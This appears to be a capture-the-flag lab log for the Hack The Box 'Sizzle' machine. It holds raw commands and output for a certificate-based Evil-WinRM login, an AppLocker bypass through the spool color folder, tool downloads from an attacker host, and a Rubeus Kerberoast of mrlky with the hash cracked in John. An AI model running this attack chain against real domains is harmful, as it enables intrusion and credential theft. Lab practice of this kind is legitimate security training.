



`cat ./amanda.csr`:
```
-----BEGIN CERTIFICATE REQUEST-----
MIICijCCAXICAQAwRTELMAkGA1UEBhMCVVMxEzARBgNVBAgMClNvbWUtU3RhdGUx
ITAfBgNVBAoMGEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDCCASIwDQYJKoZIhvcN
AQEBBQADggEPADCCAQoCggEBAJ5kFMbF0rmB/XOkl/PfIGcnWkDn/01V/zHYW8Qa
Hta4Em/GyAk4aT5ZyLVajigSvFCQrllKT+q/CVYjLHUo172ZDkNOSjzFuEHBd9MV
Bnlw5fKMrMR7CyaoTvhjlWWycDxyU2qWNYhIyHU61Mn3FB94DEJHrR+hApjT1Ard
Gaay4VtasJUuM2+FV5KU/pam9Utd3svabmfzdrqrZFg9OPlg7Pqx5bVJ462PrcU1
fRFNCb+oncVwFLZyIaBHWa/db65WIlRzdxwhh/TlCo9eK/JoaBTIljFzatTNHw19
BximchV6XfOeAqqKORocrsBB0Sl1bt61Azn3XdZg8oNrU0sCAwEAAaAAMA0GCSqG
SIb3DQEBCwUAA4IBAQApYOyy11T2rcJlWNKvsP79pCm+MBf/73OAWroBuljO/yJ9
lcTVEqOBd9l8zFfDV9d19IomCowzvbUkRrZ2Ap9PUpehWgYnUT2gZA1/sCUiTg+F
51XD/Gm6SvZb67QzIbwKas2R3MLsj30dFzCuMidldx03MvIj6hDyRJUNjgaV3R+L
Kz3R2doNCU/eL4urYGu3ikVL1um/ArXNVIEIeaC0pK6h6DCnyicQXct/NgjITTmy
WZNf6iX0fCb0y33E3K5/clWm+PY2rsnIgrgcl68XijBKnp9mmPkH94bbyRHNMRKm
3NhwibqGBsP3kmp9fBhCu+u5FUTwO6OJh5+HowcR
-----END CERTIFICATE REQUEST-----
```






`mv ./Downloads/certnew.cer ./amanda_base64_cert.pem`

`file ./amanda_base64_cert.pem`:
```
amanda_base64_cert.pem: PEM certificate
```

`evil-winrm -i 10.10.10.103 -u 'amanda' --ssl -c ./amanda_base64_cert.pem -k ./amanda.key`:
```                          
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\amanda\Documents>
```
🐚


`whoami`:
```
htb\amanda
```

`whomai /all`:
```
USER INFORMATION
----------------

User Name  SID
========== ==============================================
htb\amanda S-1-5-21-2379389067-1826974543-3574127760-1104


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity  Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

`dir C:\\Users\amanda\Desktop`:
```
```
❌

`dir C:\\Users\`:
```
    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         7/2/2018   4:29 PM                .NET v4.5
d-----         7/2/2018   4:29 PM                .NET v4.5 Classic
d-----        8/19/2018   3:04 PM                administrator
d-----        9/30/2018   5:05 PM                amanda
d-----         7/2/2018  12:39 PM                mrlky
d-----        7/11/2018   5:59 PM                mrlky.HTB
d-r---       11/20/2016   8:24 PM                Public
d-----         7/3/2018  10:32 PM                WSEnrollmentPolicyServer
d-----         7/3/2018  10:49 PM                WSEnrollmentServer
```


`impacket-GetUserSPNs 'HTB.LOCAL/amanda:Ashare1972' -dc-ip 10.10.10.103 -usersfile ./domain_users.txt`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
```
❌

`impacket-GetUserSPNs 'HTB.LOCAL/amanda:Ashare1972' -dc-ip 10.10.10.103 -request`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName  Name   MemberOf                                               PasswordLastSet             LastLogon                   Delegation 
--------------------  -----  -----------------------------------------------------  --------------------------  --------------------------  ----------
http/sizzle           mrlky  CN=Remote Management Users,CN=Builtin,DC=HTB,DC=LOCAL  2018-07-10 14:08:09.536421  2018-07-12 10:23:50.871575             


[-] CCache file is not found. Skipping...
```
❌

`sudo nmap -Pn -sS -p88 10.10.10.103`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 08:10 EST
Nmap scan report for sizzle.HTB.LOCAL (10.10.10.103)
Host is up.

PORT   STATE    SERVICE
88/tcp filtered kerberos-sec

Nmap done: 1 IP address (1 host up) scanned in 2.10 seconds
```
❌

`locate -i 'powerview.ps1'`:
```
/home/nabla/tools/PowerSploit/Recon/PowerView.ps1
/usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/powerview.ps1
/usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

`cp /home/nabla/tools/PowerSploit/Recon/PowerView.ps1 ./`


`Invoke-WebRequest -Uri http://10.10.14.32/PowerView.ps1 -OutFile PowerView.ps1`

`dir`:
```
    Directory: C:\Users\amanda\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/13/2025   8:00 AM         770279 PowerView.ps1
-a----        1/13/2025   7:52 AM         446976 Rubeus.exe
```

`Import-Module .\PowerView.ps1`:
```
Importing *.ps1 files as modules is not allowed in ConstrainedLanguage mode.
At line:1 char:1
+ Import-Module .\PowerView.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (:) [Import-Module], InvalidOperationException
    + FullyQualifiedErrorId : Modules_ImportPSFileNotAllowedInConstrainedLanguage,Microsoft.PowerShell.Commands.ImportModuleCommand
```
❌

`$ExecutionContext.SessionState.LanguageMode`:
```
ConstrainedLanguage📌
```

`. .\PowerView.ps1`:
```
At C:\Users\amanda\Documents\PowerView.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
At C:\Users\amanda\Documents\PowerView.ps1:1 char:1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
❌


`locate -i 'rubeus.exe'`:
```
/home/nabla/tools/Ghostpack-CompiledBinaries/Rubeus.exe
/home/nabla/tools/Ghostpack-CompiledBinaries/dotnet v3.5 compiled binaries/Rubeus.exe
/home/nabla/tools/Ghostpack-CompiledBinaries/dotnet v4.5 compiled binaries/Rubeus.exe
/home/nabla/tools/Ghostpack-CompiledBinaries/dotnet v4.7.2 compiled binaries/Rubeus.exe
/home/nabla/tools/Ghostpack-CompiledBinaries/dotnet v4.8.1 compiled binaries/Rubeus.exe
```

`cp '/home/nabla/tools/Ghostpack-CompiledBinaries/dotnet v4.5 compiled binaries/Rubeus.exe' ./`

`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


`Invoke-WebRequest -Uri http://10.10.14.32/Rubeus.exe -OutFile Rubeus.exe`

`dir`:
```
    Directory: C:\Users\amanda\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/12/2025   5:37 PM         446976 Rubeus.exe
```

`./Rubeus.exe kerberoast /format:john`:
```
Program 'Rubeus.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1
+ ./Rubeus.exe kerberoast /format:john
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~.
At line:1 char:1
+ ./Rubeus.exe kerberoast /format:john
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```
❌

`(Get-Acl -Path "C:\Windows\System32\spool\drivers\color").Access`:
```
FileSystemRights  : -1073676288
AccessControlType : Allow
IdentityReference : CREATOR OWNER
IsInherited       : False
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : InheritOnly

FileSystemRights  : Modify, Synchronize
AccessControlType : Allow
IdentityReference : NT AUTHORITY\SYSTEM
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

FileSystemRights  : FullControl
AccessControlType : Allow
IdentityReference : NT AUTHORITY\SYSTEM
IsInherited       : False
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : InheritOnly

FileSystemRights  : Modify, Synchronize
AccessControlType : Allow
IdentityReference : BUILTIN\Administrators
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

FileSystemRights  : FullControl
AccessControlType : Allow
IdentityReference : BUILTIN\Administrators
IsInherited       : False
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : InheritOnly

FileSystemRights  : CreateFiles, ReadAndExecute, Synchronize📌
AccessControlType : Allow
IdentityReference : BUILTIN\Users📌
IsInherited       : False
InheritanceFlags  : ContainerInherit, ObjectInherit
PropagationFlags  : None

FileSystemRights  : FullControl
AccessControlType : Allow
IdentityReference : NT SERVICE\TrustedInstaller
IsInherited       : False
InheritanceFlags  : ContainerInherit
PropagationFlags  : None

FileSystemRights  : ReadAndExecute, Synchronize
AccessControlType : Allow
IdentityReference : APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

FileSystemRights  : Read, Synchronize
AccessControlType : Allow
IdentityReference : APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES
IsInherited       : False
InheritanceFlags  : ObjectInherit
PropagationFlags  : InheritOnly
```

`Invoke-WebRequest -Uri http://10.10.14.32/Rubeus.exe -OutFile C:\Windows\System32\spool\drivers\color\Rubeus.exe`

`C:\Windows\System32\spool\drivers\color\Rubeus.exe kerberoast /format:john`:
```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : HTB.LOCAL
[*] Searching path 'LDAP://sizzle.HTB.LOCAL/DC=HTB,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : mrlky
[*] DistinguishedName      : CN=mrlky,CN=Users,DC=HTB,DC=LOCAL
[*] ServicePrincipalName   : http/sizzle
[*] PwdLastSet             : 7/10/2018 2:08:09 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT

 [X] Error during request for SPN http/sizzle@HTB.LOCAL : No credentials are available in the security package
```
❌

`C:\Windows\System32\spool\drivers\color\Rubeus.exe asktgt /user:amanda /domain:HTB.LOCAL /password:Ashare1972 /outfile:C:\Windows\System32\spool\drivers\color\amanda_tgt.kirbi`:
```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 7D0516EA4B6ED084F3FDF71C47D9BEB3
[*] Building AS-REQ (w/ preauth) for: 'HTB.LOCAL\amanda'
[*] Using domain controller: fe80::10fc:daac:252b:43bc%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIEvDCCBLigAwIBBaEDAgEWooID3DCCA9hhggPUMIID0KADAgEFoQsbCUhUQi5MT0NBTKIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJSFRCLkxPQ0FMo4IDmjCCA5agAwIBEqEDAgECooIDiASCA4RllUE52wKLudEL
      aP6czNDjHtoGyucJUWp0KzOaCV/2sF6xJNf0g2ZDgvUFmhQIrDJUfP2zKTu26kOb/vKDVAaLks2W6LOP
      5Faow9/R0gANfgbfavLT4iYo9cIYe8gnigQY0on66Ees/zDidx+hr3EvqoJFYc6pdatrje4RqZ2wr7kR
      kDek6hqVVjjhdpOCgqS98aDC7L6ywlmRHmDnC2MH8akyHdsH3jLOcuwmJETOCuXrUYPY74n789H0MCZG
      IETwMorw+smX4DAeSkssheGm6aKZ18woPNFxgjPW+9CmgWUCJ+PGiJvdceXqoL7UwD/JK0KwheyZ0qoE
      76GMQhetSowe5+Kr/mbsKee2iwpJELSlaps268vhk3BClLFs9FscmwUSbx+1goeyosc9y3dKmHMVMQdy
      7hMgehGt3T3LDyu8RfbY39FUekiWmUl7rv5y57MTcf9TRlKXLLJH6X2vGxUVSSjlYLIXYUrRiLSg3CnD
      w93UV+aTBInDjEMab1QlU8MBW7pf2zhbK3Zwp1ahywj2khuwMeKD30ijjCMQ2iAM42infm1M4y/OGf09
      E0aYEz5GRT4ueyR0NeXgLUvxYxOfsuIzhKb2f4HXug0lz0TOtaUMAvuPhgvsrBwifEGF5bJkrSMtI9D3
      b9QMSlRcep6jcekRKrG1GupxA6qTiTNYU1vffIiOi0bRTxPvXbhaAk+H9lmfALXf/9hIxNLxCLTxXxeS
      2JFZudfBm52RJxLbupzmRR1+7gX4A/tAQ948PaHU7s8XEco1KCUzEjalTbPQZejvt6pcMvuk2nDCHiVx
      XVfQ9IeBgavkf6pFKPn0cqI8loK9TWkHgg9fRHfTtqNU880aKtr5EE5IJquvKDlJ0bVCja3ROKcMNG4/
      dC8uKx1T9te7j5+4mbIjKseBLB/MhJZuMMrq5eCMVk3NZgqtpZzFpO/1fbyzJckODjC530uUz4WYjice
      M5IkYtS5vEWNmf/9Sccmn3n2Xd2qgjxJhWixiOp2jIFNRU5q0kVskDRLl9AAin3D/Xl5otxrZoQGr+KT
      81E5RWeMaOgXuE1gOesvNoD8tV7noAyn1hw6x3IpHKzeSMrW0HByQoIeaWChaKRUQGOeHcUxgFzdEYZ7
      eSMWZY24kD9zcNalARabVavDDVvdRt2kVFabwmWw8npn+6kAWicrcCwa538FTiXu426jgcswgcigAwIB
      AKKBwASBvX2BujCBt6CBtDCBsTCBrqAbMBmgAwIBF6ESBBDu9H9ADF3D4UItv310T87BoQsbCUhUQi5M
      T0NBTKITMBGgAwIBAaEKMAgbBmFtYW5kYaMHAwUAQOEAAKURGA8yMDI1MDExMzEzNTI1N1qmERgPMjAy
      NTAxMTMyMzUyNTdapxEYDzIwMjUwMTIwMTM1MjU3WqgLGwlIVEIuTE9DQUypHjAcoAMCAQKhFTATGwZr
      cmJ0Z3QbCUhUQi5MT0NBTA==

[*] Ticket written to C:\Windows\System32\spool\drivers\color\amanda_tgt.kirbi🎟️


  ServiceName              :  krbtgt/HTB.LOCAL
  ServiceRealm             :  HTB.LOCAL
  UserName                 :  amanda
  UserRealm                :  HTB.LOCAL
  StartTime                :  1/13/2025 8:52:57 AM
  EndTime                  :  1/13/2025 6:52:57 PM
  RenewTill                :  1/20/2025 8:52:57 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  7vR/QAxdw+FCLb99dE/OwQ==
  ASREP (key)              :  7D0516EA4B6ED084F3FDF71C47D9BEB3
```

`C:\Windows\System32\spool\drivers\color\Rubeus.exe kerberoast /ticket:C:\Windows\System32\spool\drivers\color\amanda_tgt.kirbi /format:john /outfile:C:\Windows\System32\spool\drivers\color\mrlky_krb5tgs_hash.txt`:
```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Kerberoasting

[*] Using a TGT /ticket to request service tickets
[*] Target Domain          : HTB.LOCAL
[+] Ticket successfully imported!
[*] Searching path 'LDAP://sizzle.HTB.LOCAL/DC=HTB,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : mrlky
[*] DistinguishedName      : CN=mrlky,CN=Users,DC=HTB,DC=LOCAL
[*] ServicePrincipalName   : http/sizzle
[*] PwdLastSet             : 7/10/2018 2:08:09 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Windows\System32\spool\drivers\color\mrlky_krb5tgs_hash.txt

[*] Roasted hashes written to : C:\Windows\System32\spool\drivers\color\mrlky_krb5tgs_hash.txt📌
```

`type C:\Windows\System32\spool\drivers\color\mrlky_krb5tgs_hash.txt`:
```
$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle*$4491B8EA5EA8DE32CB2CA64BDEE36C41$6655F7AB782AB409067C449D4F790EAC08B6EA8AE74783E72E1B3F8C67B8523630E06AADF760C587E6895079F8A172C89DDF01B5FD543D90CB271631F443C4E95F8E9ED13BEF13F3459D65E76C6BD6E97524D9693DFE78E9C1A754511830D883BD84A5E0E272B8FBD394867B4AD88118A889F22257192B22D70F4DC3A82C19AEA25614198B393480265D5D9EAF4DA08703EB4EFED26AAF8AD8329270962311E05F9B04D29F08BDEC915511F8F02A72DAD50FCA15777ABECDED22AC4BF544275B5D17F5D86FAA13BBE462E8B3F2F916B66FA3A96066A45DB19A9CA52B91A5BB86FDFCD98FC6BA18C26386DF2B143F1215D9ED733F26BA0AC4D9DDA822B562913EB862B3E2979419E305CDD64CD06C8970B2ECCE46E1CE09104A03A178C9B4D0617601C82C1453D47A72ECED41CFB7C4AB10614A219B4F3DFC65505B8741E4A2623E50EC5FF0D821C2A1404189C2DCF6BFCBA49276A1B0D210F53BC66E3EB9AE607B1C952396FED895409D0D7525709197D0BB63E16D20680E24A2E11F5099E286145FFE8194CA97C5894EDB52A27FC5F192CEF392E7DCE8F8DE96ECB41A6755D2EC6941E4C395FA652570FBAF9537E3AB30981B7E25CF90EFD8022D22E88CEDA28902D249A317120B548835A1B9A6319BB06548B9049CB24A4CE48194B3148EEE617D6047284A856BBD64F19242B78315F59DE911C4D9A5491A1CAABFE26AECE904244B62237702A3C989BFFA9EE0C9A9B4C6D0198917BAEDFF094DAE41D54B61C4EA7D0971EB5173D205AA32CB5730233FF9937C98CA546A9A570A14D1EB410AF3CE7BC9B1DE34EB99F0CCC713513429D8406062C5637737D0A0B729E744F10D124799BE70478FBF72209FAE379F07037870597AEF2F5ADFC072DDDE938B72523FCE82C34AFD378D1CB727F0CB0EB86BA420B88B88DBFD1B636CBD95EA4F9D6AA54FEC2603AF884C19215B3120CD3E708BD05920BFDECCE0C80DB90B538ED469E9A718DE3847F7E3E25F95359503219498EB493479E2B2A64873D70006899C61C33B34CEF8AA22122B79AC54366516AD2B61574FE4F2207F90BD066BBAA2BC4C37535CCD92DF3B9F8AB6934E91DF8E74F868CF47B93919DAE9E92137B4817F1F50B3204EC6B82156B880DE4C3AC47849BA411CB98EB305DC9A91C3D7D17FBCDD8E55D0688C4086A89529F1660544CEEFB9DFE3FC55536C7F475020F457FCB817E43343CF572A276B47CAEFECEDE2DDC16A9726AD9DF17EF4
```


`vim ./mrlky_krb5tgs_hash.txt`:
```
$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle*$4491B8EA5EA8DE32CB2CA64BDEE36C41$6655F7AB782AB409067C449D4F790EAC08B6EA8AE74783E72E1B3F8C67B8523630E06AADF760C587E6895079F8A172C89DDF01B5FD543D90CB271631F443C4E95F8E9ED13BEF13F3459D65E76C6BD6E97524D9693DFE78E9C1A754511830D883BD84A5E0E272B8FBD394867B4AD88118A889F22257192B22D70F4DC3A82C19AEA25614198B393480265D5D9EAF4DA08703EB4EFED26AAF8AD8329270962311E05F9B04D29F08BDEC915511F8F02A72DAD50FCA15777ABECDED22AC4BF544275B5D17F5D86FAA13BBE462E8B3F2F916B66FA3A96066A45DB19A9CA52B91A5BB86FDFCD98FC6BA18C26386DF2B143F1215D9ED733F26BA0AC4D9DDA822B562913EB862B3E2979419E305CDD64CD06C8970B2ECCE46E1CE09104A03A178C9B4D0617601C82C1453D47A72ECED41CFB7C4AB10614A219B4F3DFC65505B8741E4A2623E50EC5FF0D821C2A1404189C2DCF6BFCBA49276A1B0D210F53BC66E3EB9AE607B1C952396FED895409D0D7525709197D0BB63E16D20680E24A2E11F5099E286145FFE8194CA97C5894EDB52A27FC5F192CEF392E7DCE8F8DE96ECB41A6755D2EC6941E4C395FA652570FBAF9537E3AB30981B7E25CF90EFD8022D22E88CEDA28902D249A317120B548835A1B9A6319BB06548B9049CB24A4CE48194B3148EEE617D6047284A856BBD64F19242B78315F59DE911C4D9A5491A1CAABFE26AECE904244B62237702A3C989BFFA9EE0C9A9B4C6D0198917BAEDFF094DAE41D54B61C4EA7D0971EB5173D205AA32CB5730233FF9937C98CA546A9A570A14D1EB410AF3CE7BC9B1DE34EB99F0CCC713513429D8406062C5637737D0A0B729E744F10D124799BE70478FBF72209FAE379F07037870597AEF2F5ADFC072DDDE938B72523FCE82C34AFD378D1CB727F0CB0EB86BA420B88B88DBFD1B636CBD95EA4F9D6AA54FEC2603AF884C19215B3120CD3E708BD05920BFDECCE0C80DB90B538ED469E9A718DE3847F7E3E25F95359503219498EB493479E2B2A64873D70006899C61C33B34CEF8AA22122B79AC54366516AD2B61574FE4F2207F90BD066BBAA2BC4C37535CCD92DF3B9F8AB6934E91DF8E74F868CF47B93919DAE9E92137B4817F1F50B3204EC6B82156B880DE4C3AC47849BA411CB98EB305DC9A91C3D7D17FBCDD8E55D0688C4086A89529F1660544CEEFB9DFE3FC55536C7F475020F457FCB817E43343CF572A276B47CAEFECEDE2DDC16A9726AD9DF17EF4
```

`john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt ./mrlky_krb5tgs_hash.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Football#7🔑      (?)     
